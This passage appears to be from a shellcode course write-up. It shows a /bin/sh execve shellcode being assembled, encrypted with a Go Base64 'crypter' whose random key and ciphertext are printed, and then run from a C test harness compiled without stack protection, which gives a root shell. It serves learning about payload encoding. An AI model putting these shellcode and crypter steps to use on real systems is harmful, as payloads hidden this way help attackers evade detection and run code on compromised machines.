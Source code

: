 I used the `/bin/sh` shellcode to run the crypter again.
```bash
# python compilerX86.py -f bin-sh

[+] Assemble: bin-sh.nasm
[+] Linking: bin-sh.o
[+] Shellcode: "\xeb\x1a\x5e\x31\xdb\x88\x5e\x07\x89\x76\x08\x89\x5e\x0c\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\x31\xc0\xb0\x0b\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43"
```

```bash
# go run goBase64Crypter.go "\xeb\x1a\x5e\x31\xdb\x88\x5e\x07\x89\x76\x08\x89\x5e\x0c\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\x31\xc0\xb0\x0b\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43"
[INFO] Original Text    : \xeb\x1a\x5e\x31\xdb\x88\x5e\x07\x89\x76\x08\x89\x5e\x0c\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\x31\xc0\xb0\x0b\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43
[INFO] Random Key       : XhVkv3RK89cTGx63Cv7YPkcwdA3v1qWE
[INFO] Encrypted Base64 : blSC0D5MO-tFgq9afP-R6Jb5lcQNIo3Z4LTeSyl3tJALs_Mq_W8IYDlkZ3MOro-YjknSad6HzLEmqlQLgRkdPQSrCTGGq_NcWoPGbvCqIpey1wEqfiPnxwiljlfGTxBzXXV-UQzkiSqDidgYwVaND2qCE66_vHuMW7Chq_CP62BPjGvOozVoz_uTUs9POF0jW6Y2qXY9e_Ykw5wvly_aKPOVxWPIPdCctn3uFF7XXoUD50KmEa-VLxadgG2fx02ky2iuKvZF0AvABxtOCL1pQio1NDM=
[INFO] Decrypted Text   : \xeb\x1a\x5e\x31\xdb\x88\x5e\x07\x89\x76\x08\x89\x5e\x0c\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\x31\xc0\xb0\x0b\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43
```

I used the following `C` code to run the decrypted shellcode:

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \ 
"\xeb\x1a\x5e\x31\xdb\x88\x5e\x07\x89\x76\x08\x89\x5e\x0c\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\x31\xc0\xb0\x0b\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43";
main()
{
printf("Shellcode Length:  %d", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```

Compile and run it:

```bash
# gcc -fno-stack-protector -z execstack -o shellcode shellcode.c -w

# ./shellcode 
# id
uid=0(root) gid=0(root) groups=0(root)
# exit
```
